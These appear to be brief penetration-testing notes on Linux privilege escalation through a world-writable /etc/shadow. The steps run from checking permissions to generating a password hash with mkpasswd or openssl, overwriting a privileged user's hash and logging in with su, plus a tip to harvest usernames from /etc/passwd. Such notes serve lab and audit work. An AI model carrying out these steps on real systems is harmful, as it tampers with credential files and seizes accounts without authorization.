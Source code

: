 - Identify if shadow file is globally writeable:
    ls -l /etc/shadow
    -rw-r--rw- 1 root shadow 837 Apr 12 01:32 /etc/shadow

If they are you can try replacing their hashes with a password hash of your choice

- Replace user hash in /etc/shadow
    mkpasswd -m sha-512 <new password> will create a new hash

    if `mkpasswd` is unavailable, try:
    openssl passwd -6 <new_password>

    Copy the entire hash and replace the hash of any privileged user in the shadow file

- use: `su <user>` and use new password to login

NOTE: if you can access the /etc/passwd file, it's possible to gather usernames for further investigation
